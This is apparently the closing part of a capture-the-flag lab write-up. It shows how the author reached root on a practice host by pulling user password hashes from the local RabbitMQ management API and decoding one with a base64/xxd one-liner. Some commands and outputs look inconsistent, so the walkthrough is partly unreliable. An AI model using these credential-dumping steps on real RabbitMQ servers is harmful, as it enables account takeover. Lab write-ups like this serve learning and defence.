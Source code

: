 You can now use the internal API of the RabbitMQ management server on port 15672 to get some information.
```terminal
rabbitmq@forge:~$ curl -u "imposter:123" localhost:port http://localhost:15672/api/users                                                                                                               
curl: (3) URL using bad/illegal format or missing URL                                                                                                                                                         
[{"name":"The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.","password_hash":"vyf4qvKLpShONYgEiNc6xT/5rLq+23A2RuuhEZ8N10kyN34K","hashing_algorithm":"rabbit_password_hashing_sha256","tags":[],"limits":{}},{"name":"imposter","password_hash":"y+k4c/x1Oi/ftAaMPZ3tUAUldbnhpCpOJcb/1EOYe+j4M1Zp","hashing_algorithm":"rabbit_password_hashing_sha256","tags":["administrator"],"limits":{}},{"name":"root","password_hash":"THISISNOTTHEREALHASH","hashing_algorithm":"rabbit_password_hashing_sha256","tags":["administrator"],"limits":{}}]
```

This is the user list in a more readable format, the list includes the password in a base64 hashed format.
```json
[
  {
    "name": "The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.",
    "password_hash": "vyf4qvKLpShONYgEiNc6xT/5rLq+23A2RuuhEZ8N10kyN34K",
    "hashing_algorithm": "rabbit_password_hashing_sha256",
    "tags": [],
    "limits": {}
  },
  {
    "name": "imposter",
    "password_hash": "y+k4c/x1Oi/ftAaMPZ3tUAUldbnhpCpOJcb/1EOYe+j4M1Zp",
    "hashing_algorithm": "rabbit_password_hashing_sha256",
    "tags": [
      "administrator"
    ],
    "limits": {}
  },
  {
    "name": "root",
    "password_hash": "THISISNOTTHEREALHASH",
    "hashing_algorithm": "rabbit_password_hashing_sha256",
    "tags": [
      "administrator"
    ],
    "limits": {}
  }
]
```

I googled a little bit and found [this GitHub issue](https://github.com/QKaiser/cottontail/issues/27), which shows us how we can convert the hash back to a normal SHA256 format.

```terminal
echo 'hashhashhashhashhashhashhashhashhashhashhash' | base64 -d | xxd -pr -c128 | cut -c9-
```

Now you can use the output to log into root.

```terminal
root@forge:~# wc root.txt 
 1  1 33 root.txt
```
Although I struggled at first doing this room, I really liked the different stages.